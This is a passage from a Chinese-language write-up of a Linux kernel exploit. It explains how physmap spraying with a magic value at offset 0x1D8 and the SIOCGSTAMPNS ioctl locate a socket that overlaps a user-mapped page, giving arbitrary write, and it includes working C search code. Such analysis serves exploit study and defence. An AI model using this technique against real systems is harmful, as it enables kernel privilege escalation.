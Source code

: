 ```
}
EXPORT_SYMBOL(sock_get_timestampns);

```

会返回 sk->sk_stamp，在我们的环境中它在 sock 对象中的偏移正是 0x1D8, 应此我们在 mmap 的每一页的 0x1d8 的地方放上 magic number

```
   *(unsigned long *)((char *)mapped_page + 0x1D8)  = MAGIC_VALUE + physmap_spray_pages_count;

```

之后调用 ioctl(exp_sock, SIOCGSTAMPNS, &`time`); 查看是否是我们的 magic number, 如果是，我们就找到了 mmap 和 socket 的重叠块，可以在这个 socket 里任意写了，毕竟 mmap 是同时将我们的数据映射到用户和内核态的

```
     int search_exploitable_socket(int* index, void** payload)
{
    struct    timespec time;
    uint64_t  value;
    void*     page     =  NULL;
    int       j        =  0;
    int       exp_sock = -1;
    int       got      =  0;

    *payload  = NULL;
    do
    {
        exp_sock = vultrig_socks[*index];
        memset(&time, 0, sizeof(time));
        ioctl(exp_sock, SIOCGSTAMPNS, &time);
        /*
            ts.tv_sec = div_s64_rem(nsec, NSEC_PER_SEC, &rem);
            if (unlikely(rem < 0)) {
             ts.tv_sec--;
              rem += NSEC_PER_SEC;
            }
            ts.tv_nsec = rem;
        */
        value = ((uint64_t)time.tv_sec * NSEC_PER_SEC) + time.tv_nsec;
        for(j=0;  j<physmap_spray_pages_count; j++)
        {
            page = physmap_spray_pages[j];
            if(value == *(unsigned long *)((char *)page + 0x1D8))
            {
                printf("[*] magic:%p\n", value);
                got      = 1;
                *payload = page;
                break;
            }
        }
        *index = *index + 1;
    }
    while(!got && *index < MAX_VULTRIG_SOCKS_COUNT);

    if(got == 0)
    {
        return -1;
    }
    else
    {
        return exp_sock;
    }
}

```